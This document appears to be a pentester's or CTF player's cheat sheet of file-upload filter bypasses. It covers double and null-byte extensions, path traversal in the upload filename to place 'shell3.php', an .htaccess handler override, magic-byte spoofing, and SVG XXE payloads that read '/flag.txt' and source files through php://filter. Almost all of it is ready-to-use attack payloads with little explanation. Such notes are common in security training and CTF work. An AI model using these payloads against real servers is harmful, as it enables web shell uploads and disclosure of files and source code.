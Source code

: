 #encoding
#php
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt

##### Double extension 
`.jpg.php`

##### Reverse Double Extension
`.php.jpg`

##### Add trailing characters. 
Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`

##### URL encoding
%

##### Null byte
Adding `%00` to http requests creates miracles.
`exploit.php%00.jpg`
then open `/uploads/exploit.php%00.jpg` 
`%00` ends parsing on it and downloads `exploit.php`

##### Low level functions of C/C++
`exploit.asp;.jpg` or `exploit.asp%00.jpg`

###### Try using multibyte unicode characters,
Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E`

##### If extensions is stripped, double it
`exploit.p.phphp`

##### Upload to different directory
```
Content-Disposition: form-data; name="avatar"; filename="../shell3.php"
```

Trying to bypass filters:
```
filename="..%2fshell3.php"
```

then open `avatars/../shell3.php`

##### Replace .htaccess if some extensions are not allowed
[[apache]]
```
AddType application/x-httpd-php .nope
```

##### Character Injection

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Content-type:

in the zero bytes of file:

`GIF8`
`PNG`

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

Mime types:

[File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime).

SVG/XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "/flag.txt"> ]>
<svg>&xxe;</svg>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```